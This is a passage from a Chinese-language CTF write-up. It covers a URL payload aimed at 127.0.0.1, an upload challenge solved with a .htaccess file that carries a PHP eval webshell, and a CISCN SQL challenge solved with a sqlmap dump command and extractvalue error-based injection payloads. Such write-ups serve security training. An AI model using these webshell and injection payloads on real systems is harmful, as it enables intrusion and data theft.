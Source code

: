 然后直接`{"url"="https://127.0.0.1:1234//ip/.."}`

![image-20210511224859453](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-11-image-20210511224859453.png)

后来看师傅们的wp，打本地也是ok的，不过不知道为什么不能直接读`/flag`,还得从传参一层一层读..

![image-20210511225539813](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-11-image-20210511225539813.png)

### UploadHub ×

很离谱，明明是白名单上传，但是好像变成了任意文件上传

配置文件上有

```ini
<Directory ~ "/var/www/html/upload/[a-f0-9]{32}/">
        php_flag engine off
</Directory>
```

看了几种打法，但一打上去就无法访问网站，或者连接失败。

师傅wp:

```
<Files .htaccess>
SetHandler application/x-httpd-php
Require all granted
php_flag engine on
</Files>
#<?php eval($_REQUEST['theoyu'])?>
```

我记得我之前用过这种类似的，但是不行，试了一次果然还是不行...奇奇怪怪

![image-20210511233114244](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-11-image-20210511233114244.png)

**后续补充**:在buu上重新做了一下这道题，原封不动的打法成功了,但是马很快会被删掉，而且`disable_funciton`禁用很多，不过直接用`file_get_contens()`读 **/flag**即可。

## 0x07 ciscn 初赛

感觉web质量还不错，可以接受范围。

### easy_sql

先用sqlmap跑一下，发现表名和列名，但flag表只有一个id，而且只有一个1。

```
python2 .\sqlmap.py -r .\ctf.txt -D security -T flag -C "cb01f2dd-b7ea-458c-a300-93e0607b183a" --dump
```

然后报错注入的方法也可以跑出来，无列名注入，得到flag。

```
passwd=1&uname=') and extractvalue(0x0a,concat(0x0a,database()))-- -
passwd=1&uname=') and extractvalue(0x0a,concat(0x0a,(select * from (select * from flag a join flag b using(id,no))c)))-- -
```
